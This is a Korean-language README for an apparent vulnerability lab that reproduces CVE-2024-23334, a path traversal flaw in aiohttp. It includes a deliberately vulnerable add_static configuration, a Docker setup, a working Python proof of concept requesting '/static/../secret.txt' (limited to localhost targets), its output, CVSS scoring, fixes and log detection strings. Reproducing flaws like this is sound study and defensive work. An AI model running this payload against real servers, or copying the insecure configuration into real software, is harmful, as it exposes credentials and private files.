



# CVE-2024-23334: aiohttp 디렉터리 경로 탐색 취약점


## 1. 취약점 요약

CVE-2024-23334는 Python 비동기 HTTP 프레임워크인 aiohttp의 정적 파일 처리 과정에서 발생하는 디렉터리 경로 탐색 취약점이다.

aiohttp 웹 서버에서 정적 파일 경로를 등록할 때 `follow_symlinks=True` 옵션을 사용하면 취약 버전에서는 요청한 파일이 지정된 정적 파일 디렉터리 내부에 존재하는지 충분히 검사하지 않는다.

인증되지 않은 원격 공격자는 `../`가 포함된 경로를 요청해 정적 파일 디렉터리를 벗어나고 aiohttp 프로세스가 읽을 수 있는 임의의 파일을 조회할 수 있다.

| 항목 | 내용 |
|---|---|
| CVE | CVE-2024-23334 |
| 대상 | aiohttp |
| 취약 버전 | 1.0.5 이상, 3.9.2 미만 |
| 실습 버전 | aiohttp 3.9.1 |
| 수정 버전 | aiohttp 3.9.2 이상 |
| 취약점 유형 | CWE-22: Path Traversal |
| CVSS v3.1 | 7.5 High |
| CVSS Vector | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| 주요 영향 | 인증 없이 서버 내부 파일 읽기 |

## 2. 환경 구성

### 2.1 실습 환경

| 구성 요소 | 내용 |
|---|---|
| Host OS | Windows 11 |
| Container | Linux Docker Container |
| Base image | Python 3.11.9 slim-bookworm |
| Web framework | aiohttp 3.9.1 |
| 서비스 포트 | `127.0.0.1:8080` |
| 취약 서버 서비스 | `aiohttp` |
| PoC 서비스 | `poc` |

Dockerfile은 공식 Python 기반 이미지의 digest를 고정하고 취약한 aiohttp 버전을 직접 설치한다.

### 2.2 파일 구조

```text
CVE-2024-23334/
├── images/
│   ├── 01-compose-healthy.png
│   ├── 02-normal-access.png
│   └── 03-poc-success.png
├── Dockerfile
├── app.py
├── docker-compose.yml
├── exploit.py
├── README.md
└── requirements.txt
```

### 2.3 Docker 서비스 구성

`aiohttp` 서비스는 취약한 웹 서버를 실행한다. 호스트의 8080번 포트는 외부에 공개되지 않도록 `127.0.0.1`에만 바인딩했다.

`poc` 서비스는 Docker 내부 네트워크를 통해 `aiohttp:8080`으로 요청을 전송한다. 따라서 호스트 환경에 Python이나 별도 PoC 라이브러리를 설치할 필요가 없다.

## 3. 취약 조건

다음 조건을 모두 충족할 때 취약점이 발생한다.

1. aiohttp 1.0.5 이상 3.9.2 미만 버전을 사용한다.
2. aiohttp가 웹 서버로 동작한다.
3. 정적 파일 경로를 제공한다.
4. 정적 파일 설정에서 `follow_symlinks=True`를 사용한다.
5. 공격자가 aiohttp 서버에 HTTP 요청을 보낼 수 있다.
6. 공격 대상 파일에 aiohttp 프로세스의 읽기 권한이 있다.

본 환경의 취약한 설정은 `app.py`의 다음 부분이다.

```python
app.router.add_static(
    "/static/",
    path=STATIC_DIR,
    follow_symlinks=True,
    name="static",
)
```

정상적으로 공개되는 파일은 다음 경로에 있다.

```text
/app/static/public.txt
```

PoC로 읽는 비공개 검증 파일은 정적 파일 디렉터리 밖에 있다.

```text
/app/secret.txt
```

검증 파일의 내용은 다음과 같다.

```text
CVE-2024-23334-SUCCESS
```

## 4. 취약 환경 실행

### 4.1 저장소 내려받기

```bash
git clone https://github.com/sieun-0322/kr-vulhub.git
cd kr-vulhub/Python/CVE-2024-23334
```


### 4.2 캐시 없이 이미지 빌드

```bash
docker compose --profile poc build --no-cache --pull
```

### 4.3 취약 서버 실행

```bash
docker compose up -d
```

### 4.4 서버 상태 확인

```bash
docker compose ps
```

정상적으로 실행되면 `STATUS`에 `healthy`가 표시된다.



## 5. 정상 기능 확인

웹 서버의 메인 페이지와 공개된 정적 파일을 요청한다.


```powershell
curl.exe http://127.0.0.1:8080/
curl.exe http://127.0.0.1:8080/static/public.txt
```

정상적인 정적 파일 접근 결과는 다음과 같다.

```text
This file is allowed to be accessed.
```



## 6. PoC 코드

`exploit.py`는 외부 공격에 사용되지 않도록 `127.0.0.1`, `localhost`, Docker 내부 서비스명인 `aiohttp`만 허용한다.

PoC는 `/static/../secret.txt`를 요청해 정상적으로는 접근할 수 없어야 하는 `/app/secret.txt`를 읽는다.

```python
import os
import sys
from http.client import HTTPConnection


ALLOWED_HOSTS = {"127.0.0.1", "localhost", "aiohttp"}

host = os.getenv("TARGET_HOST", "127.0.0.1")
port = int(os.getenv("TARGET_PORT", "8080"))

payload = "/static/../secret.txt"
expected_token = "CVE-2024-23334-SUCCESS"


if host not in ALLOWED_HOSTS:
    print(f"[-] 허용되지 않은 대상입니다: {host}")
    sys.exit(1)


print("[*] CVE-2024-23334 PoC")
print(f"[*] 대상: http://{host}:{port}")
print(f"[*] 요청 경로: {payload}")

try:
    connection = HTTPConnection(host, port, timeout=5)
    connection.request("GET", payload)

    response = connection.getresponse()
    body = response.read().decode("utf-8", errors="replace").strip()

    print(f"[*] HTTP 상태 코드: {response.status}")
    print(f"[*] 응답 내용: {body}")

    if response.status == 200 and expected_token in body:
        print("[+] 취약점 재현 성공")
        print("[+] static 폴더 외부의 secret.txt 파일을 읽었습니다.")
        sys.exit(0)

    print("[-] 취약점 재현 실패")
    sys.exit(1)

except OSError as error:
    print(f"[-] 서버 연결 실패: {error}")
    sys.exit(1)

finally:
    if "connection" in locals():
        connection.close()
```

## 7. PoC 실행 절차

PoC 이미지가 아직 빌드되지 않았다면 다음 명령으로 빌드한다.

```bash
docker compose --profile poc build poc
```

PoC를 실행한다.

```bash
docker compose --profile poc run --rm poc
```

성공 시 다음 결과가 출력된다.

```text
[*] CVE-2024-23334 PoC
[*] 대상: http://aiohttp:8080
[*] 요청 경로: /static/../secret.txt
[*] HTTP 상태 코드: 200
[*] 응답 내용: CVE-2024-23334-SUCCESS
[+] 취약점 재현 성공
[+] static 폴더 외부의 secret.txt 파일을 읽었습니다.
```

HTTP 상태 코드 `200`과 함께 정적 파일 경로 외부의 검증 문자열이 반환되므로 디렉터리 경로 탐색 취약점이 재현된 것을 확인할 수 있다.



## 8. 실행 결과 및 영향

공격자는 인증 과정이나 사용자 상호작용 없이 조작된 HTTP 경로를 전송할 수 있다.

실습에서는 `/app/static` 디렉터리 외부의 `/app/secret.txt`를 읽었다. 실제 환경에서는 웹 서버 프로세스의 권한에 따라 다음과 같은 파일이 노출될 수 있다.

- 애플리케이션 설정 파일
- 환경 변수와 인증정보가 저장된 파일
- 데이터베이스 접속정보
- API 키 및 토큰
- 사용자 정보가 포함된 파일

본 취약점은 파일 내용 변경이나 시스템 가용성 저하보다 기밀성 침해에 직접적인 영향을 준다.

## 9. Risk Score

공식 GitHub Security Advisory에 제시된 CVSS v3.1 점수는 **7.5 High**이다.

```text
CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:N
```

| 평가 항목 | 값 | 근거 |
|---|---|---|
| Attack Vector | Network | HTTP 네트워크 요청으로 공격 가능 |
| Attack Complexity | High | 취약 버전과 `follow_symlinks=True` 조건 필요 |
| Privileges Required | None | 인증이나 계정 불필요 |
| User Interaction | None | 사용자 조작 불필요 |
| Scope | Unchanged | 취약한 웹 서버 프로세스 권한 범위 내 영향 |
| Confidentiality | High | 서버 내부의 민감 파일을 읽을 수 있음 |
| Integrity | None | 본 취약점 자체로 파일 변경은 확인되지 않음 |
| Availability | None | 본 취약점 자체로 서비스 중단은 확인되지 않음 |

## 10. 대응 방안

### 10.1 aiohttp 업데이트

aiohttp를 취약점이 수정된 3.9.2 이상 버전으로 업데이트한다.

```text
aiohttp>=3.9.2
```

운영 환경에서는 호환성을 검토한 뒤 최신 보안 버전을 사용하는 것이 권장된다.

### 10.2 `follow_symlinks` 비활성화

정적 파일 설정에서 `follow_symlinks=True`를 제거하거나 `False`로 설정한다.

```python
app.router.add_static(
    "/static/",
    path=STATIC_DIR,
    follow_symlinks=False,
    name="static",
)
```

### 10.3 리버스 프록시 사용

운영 환경에서는 aiohttp가 직접 정적 파일을 제공하지 않도록 하고 Nginx와 같은 검증된 리버스 프록시가 정적 파일을 처리하도록 구성한다.

### 10.4 최소 권한 적용

aiohttp 프로세스를 비관리자 계정으로 실행하고 웹 서버에 필요하지 않은 설정 파일과 인증정보에 대한 읽기 권한을 제한한다.

### 10.5 탐지 및 모니터링

웹 서버 로그에서 다음 문자열이 포함된 비정상 요청을 모니터링한다.

```text
../
%2e%2e
..%2f
```

단, 인코딩 방식이 다양할 수 있으므로 단순 문자열 차단만 대응책으로 사용해서는 안 된다.

## 11. 환경 종료

실습이 끝나면 다음 명령으로 컨테이너와 네트워크를 삭제한다.

```bash
docker compose down --volumes --remove-orphans
```


## 12. 참고 자료

- [GitHub Security Advisory GHSA-5h86-8mv2-jq9f](https://github.com/advisories/GHSA-5h86-8mv2-jq9f)
- [NVD CVE-2024-23334](https://nvd.nist.gov/vuln/detail/CVE-2024-23334)
- [aiohttp 보안 패치 PR #8079](https://github.com/aio-libs/aiohttp/pull/8079)
- [aiohttp 보안 패치 커밋](https://github.com/aio-libs/aiohttp/commit/1c335944d6a8b1298baf179b7c0b3069f10c514b)